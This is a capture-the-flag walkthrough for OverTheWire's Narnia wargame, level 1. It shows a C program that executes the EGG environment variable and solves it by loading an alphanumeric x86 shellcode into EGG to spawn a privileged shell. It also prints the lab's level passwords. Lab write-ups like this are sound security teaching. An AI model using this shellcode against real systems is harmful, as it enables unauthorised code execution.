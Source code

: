 <h1>Narnia 1 &#x2192; Narnia 2 </h1>

<p>There is no information for this level, intentionally.</p>

<h1>Solution</h1>

```bash
user@host:~$ ssh narnia1@narnia.labs.overthewire.org -p 2226
efeidiedae
```

Just like in level 0 we will navigate to the `/narnia` directory, as there were some programs for each level. Let us first take a look at the program `narnia1`:

```bash
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```

The source code for the program is (excluding the licensing information):

```c
narnia1@narnia:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

The program will try to execute whatever is in the environment variable `EGG`. Currently, that variable is NULL.

```sh
narnia1@narnia:/narnia$ echo $EGG
>>>
```

We need a callable collection of bytes in order to make use of this exploit. This can be achieved using `shellcode`, a piece of code that allows a shell to start upon execution.

Using

```
narnia1@narnia:/narnia$ uname -a
Linux narnia 4.18.12 #1 SMP Tue Oct 16 11:25:23 UTC 2018 x86_64 GNU/Linux
```

we can see that the instruction should be for an `x_86` or `x86_64` OS architecture. There exist loads of different shellcodes for these systems, but we'll take an alphanumeric one.

```bash
narnia1@narnia:/narnia$ export EGG=hzzzzYAAAAAA0HM0hN0HNhu12ZX5ZBZZPhu834X5ZZZZPTYhjaaaX5aaaaP5aaaa5jaaaPPQTUVWaMz
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat ../etc/narnia_pass/narnia2
nairiepecu
```
[narnia level 1](1.md)
	[narnia level 3](3.md)
